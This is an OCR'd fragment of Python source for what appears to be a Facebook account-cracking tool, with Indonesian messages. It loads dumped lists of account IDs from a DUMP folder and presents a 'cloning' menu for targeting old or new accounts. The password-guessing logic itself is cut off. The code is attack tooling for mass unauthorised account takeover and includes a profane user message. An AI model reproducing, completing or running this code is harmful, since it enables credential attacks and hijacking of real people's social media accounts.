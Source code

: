 			except:
				girang = set.find('title')
				girang2 = girang.text.replace(" | Facebook","").replace(" Grup Publik","")
				if girang2=='Masuk Facebook':
					pass
				else:
					lah()
		except requests.exceptions.ConnectionError:
			try:
				time.sleep(31)
			except KeyboardInterrupt:
				lah()
		except KeyboardInterrupt:
			lah()
#-------------[ CRACK-FROM-FILE ]------------------#
def crack_file():
	try:vin = os.listdir('DUMP')
	except FileNotFoundError:
		print('=>File Tidak Ditemukan ')
		time.sleep(2)
		back()
	if len(vin)==0:
		print('=>Kamu Tidak Memiliki File Dump ')
		time.sleep(2)
		back()
	else:
		cih = 0
		lol = {}
		for isi in vin:
			try:hem = open('DUMP/'+isi,'r').readlines()
			except:continue
			cih+=1
			if cih<100:
				nom = ''+str(cih)
				lol.update({str(cih):str(isi)})
				lol.update({nom:str(isi)})
				print(f'=>%s. %s ({h} %s{u} idz )'%(nom,isi,len(hem)))
			else:
				lol.update({str(cih):str(isi)})
				print('['+str(cih)+'] '+isi+' [ '+str(len(hem))+' Account ]'+u)
				print('=>%s. %s ({h} %s {u}idz) '%(cih,isi,len(hem)))
		geeh = input('\n=>Pilih : ')
		try:geh = lol[geeh]
		except KeyError:
			print(f'{k}=>Pilih Yang Bener Kontol {u}')
			time.sleep(3)
			back()
		try:lin = open('DUMP/'+geh,'r').read().splitlines()
		except:
			print('=>File Tidak Ditemukan, Coba Lagi Nanti ')
			time.sleep(2)
			back()
		for xid in lin:
			id.append(xid)
		setting()
#-------------[ Id -Crackiing]---------------#
def setting():
	cetak(nel('\t[bold cyan]         CLONING MENU â€¢ [/bold cyan]'))
	print('') 
	cetak(nel('[bold yellow]â¤ï¸âž£1. CLONE JUST OLD IDZ \nâ¤ï¸âž£2. CLONE JUST NEW IDZ(RECOMEND)\nâ¤ï¸âž£3. CLONE MIX IDZ (NEW/OLD)=>RECOMEND [bold yellow]'))
	print('')
	hu = input('=>CHOOSE : ')
	if hu in ['1','01']: